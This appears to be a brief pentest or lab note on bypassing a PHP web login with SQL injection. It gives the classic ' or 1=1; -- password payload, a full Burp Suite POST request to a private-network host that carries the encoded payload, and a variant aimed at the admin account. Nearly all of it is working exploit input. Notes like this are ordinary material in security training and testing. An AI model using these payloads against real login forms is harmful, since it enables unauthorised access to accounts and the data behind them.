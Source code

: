 
![[Pasted image 20231108091949.png]]


# Login SQL-Injection  as User (Role: Customer)

## Browser
Username: egal
Password: ``` ' or 1=1; --  ```

## Burp Suite



```
POST /routers/router.php HTTP/1.1
Host: 10.0.68.105
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://10.0.68.105
Connection: close
Referer: http://10.0.68.105/login.php
Cookie: PHPSESSID=ldhu662ju9tu9ke4a00isemnfj
Upgrade-Insecure-Requests: 1

username=test&password=%27+or+1%3D1%3B+--+
```

```
username=admin&password='+or+1%3d1;+--+'
```

![[Pasted image 20231210165948.png]]